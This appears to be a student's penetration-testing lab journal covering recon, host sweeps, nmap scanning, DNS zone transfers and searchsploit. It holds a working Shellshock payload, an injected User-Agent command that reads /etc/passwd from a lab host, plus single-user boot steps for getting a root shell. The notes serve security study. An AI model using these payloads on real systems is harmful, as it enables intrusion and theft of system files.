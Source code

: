 # Journal

## 1/21/2022
#### Passive Recon
- www.boltonvalley.com
- Tools
 - `whois`
 - `nslookup`
 - theHarvester
 - [archive.org](https://archive.org)

## 1/27/2022
- setup crd on kali
- installed wireguard on kali
- `sudo apt install wireguard`
### Modification
- `sudo wg-quick up wg0`
## 1/28/2022
- ephemeral port on src device
### Host Discovery
- ping
```bash
for ip in $(seq 2 50); do ping 10.0.5.$ip -c 1 -t 20| grep "bytes from" | grep -oP "(\d+\.){3}\d+" >> sweep.txt; done
```
- fping
```bash
sudo fping -g 10.0.5.2 10.0.5.50 | grep "alive" | cut -d " " -f 1 >> sweep2.txt
```
- nmap
```bash
sudo nmap -n --open -sn 10.0.5.2-50 | grep report | cut -d " " -f 5 > sweep3.txt
```
- & to not wait for command to complete
#### Reflections
- Had trouble with running bash file - Fixed with
```bash
chmod +x
```
- Really slow until lowered ttl for pings

## 2/3/2022
### nmap
- Needs sudo to check with ICMP to see if host is open
- Checks all ports even if host is down:
```bash
sudo nmap ip -Pn
```
- Target specific ports:
```bash
sudo nmap ip -p ports
```
- Get versions of:
```bash
sudo nmap ip -sV
```
- Checks everything and tracert:
```bash
sudo nmap ip -A
```
### Port Scanning
#### Enable RDP
- Settings > System > Remote Desktop
#### Reflection
- OS and Version detection not always accurate

## 2/4/2022
### PowerShell and DNS
- use single quotes around period to escape it
```bash
Resolve-DnsName -Name $network'.'$i -DnsOnly -Server $server | Select-Object -Property Name,NameHost
```
- for loops with -gt,-lt,-eq
- Pipe to Get-Member to list properties
- Pipe to Select-Object to use those properties
## 2/10/2022
### Bash and DNS
[DNS page](dns-enumeration.md)
### Reflections
- nmap -oG for greppable output
- `
dig axfr @nameserver domain
` for zone transfer
- `
nslookup -vc
` to use TCP instead of UDP
- `
nmap -sS -sU
` to query tcp and udp ports

## 2/11/2022
### Searchsploit
- use with version name and number to get exploits
- use with -m exploit number to download
### Test
- `
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/status,cmd="echo ; echo ; /usr/bin/whoami" 10.0.5.23
`
- `
curl -H 'User-Agent: () { :; }; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.0.5.23/cgi-bin/status
`
#### Reflections
- `
xfce4-panel -r
` to reload top bar
## 2/23/2022
### Cupcake

## 2/24/2022
### Password Guessing
### Single User
- Reboot and press "e" on GNU/Linux
- add `single init=/bin/bash` to end of linux line
- remount drive `mount -rw -o remount /`
- `sync` and `umount /` before rebooting
